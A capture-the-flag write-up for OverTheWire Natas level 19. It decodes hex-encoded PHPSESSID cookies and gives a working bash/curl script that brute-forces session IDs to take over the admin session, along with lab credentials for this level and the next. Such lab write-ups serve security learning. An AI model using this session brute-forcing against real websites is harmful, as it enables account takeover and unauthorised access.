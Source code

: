 # NATAS LEVEL 19

```
http://overthewire.org/wargames/natas/natas19.html
```

```
Username: natas19
Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
URL:      http://natas19.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

There is no code for us to inspect this time through, only the hint that it
is "mostly the same" as the previous level except sessionIDs are no longer
sequential.

Hm.

#### COOKIE INSPECTION

Trial and error with username `admin` and password `foo`, we see the our
PHPSESSID cookie is set to `3232382d61646d696e`

<img src='cookie.jpg' width=500px>

Resending the same username/password combination gave us a different
PHPSESSID cookie of "38352d61646d696e", but the last 12 digits were the same
"2d61646d696e". Hm. Let's try generating a few more SESSION IDs with user admin
to see if we can derive a pattern..

```
3-23238-2d61646d696e
3-835-2d61646d696e
3-23938-2d61646d696e
3-13338-2d61646d696e
3-339-2d61646d696e
3-43930-2d61646d696e
3-33436-2d61646d696e
3-135-2d61646d696e
3-23838-2d61646d696e
3-533-2d61646d696e
3-63038-2d61646d696e
3-43231-2d61646d696e
3-33536-2d61646d696e
3-13033-2d61646d696e
3-13133-2d61646d696e
3-53438-2d61646d696e
```

So it seems that the SESSION ID always starts with 3 and has a random 3-5 digit
number before the fixed suffix.

Tried using a different username than `admin` results in a completely new
string for our PHPSESSID (well, except that it always seems to start with "3").
So, somehow our username seems to be incorporated into the SESSIONID and for
`admin` the last 12 digits of the sessionID should be `2d61646d696e`.

#### HEXADECIMAL

Tried feeding the SESSION ID into a hex-to-ascii conversion and finally got
the pattern of the SESSION ID:

```
3232382d61646d696e  228-admin	
38352d61646d696e    85-admin
3239382d61646d696e  298-admin
3133382d61646d696e  138-admin
33392d61646d696e    39-admin
3439302d61646d696e  490-admin
3334362d61646d696e  346-admin
31352d61646d696e    15-admin
3238382d61646d696e  228-admin
35332d61646d696e    53-admin
3630382d61646d696e  608-admin
3432312d61646d696e  421-admin
3335362d61646d696e  356-admin
3130332d61646d696e  103-admin
3131332d61646d696e  113-admin
3534382d61646d696e  548-admin
```

#### BRUTE FORCE

Well, let's cycle through all the sequences between `0-admin` and `640-admin`
(since we are assuming the same "max" range for session identifiers as in the
last level) for our SESSIONID variable and see what happens.

```
$ cat script.sh
#! /bin/bash

for SEQ in {0..640}
do
  # PHPSESSID is the hexadecimal representation of "randomnum-username"
  SESSIONSTR="${SEQ}-admin"
  SESSIONID="$(echo -n ${SESSIONSTR} | xxd -p)"
  echo "${SEQ}: ${SESSIONID}"

  curl --silent \
    'http://natas19.natas.labs.overthewire.org/index.php?debug' \
    -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' \
    -H "Cookie: PHPSESSID=${SESSIONID}" \
    --data 'username=admin&password=foo' \
    | grep "regular" >/dev/null

  if [ $? -ne 0 ]; then
    # if the string "regular user" is not present, that probably means we
    # found the admin session?
    break;
  fi
done
```

```
$ ./script.sh
0: 302d61646d696e
1: 312d61646d696e
2: 322d61646d696e

<...>

278: 3237382d61646d696e
279: 3237392d61646d696e
280: 3238302d61646d696e
281: 3238312d61646d696e
```

We stopped at #281.  Let's validate..

```
$ echo 3238312d61646d696e | xxd -r -p
281-admin
$ curl --silent 'http://natas19.natas.labs.overthewire.org/index.php?debug' -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' -H "Cookie: PHPSESSID=3238312d61646d696e" --data 'username=admin&password=foo'
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas19", "pass": "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs" };</script></head>
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
DEBUG: Session start ok<br>You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>
</body>
</html>
```
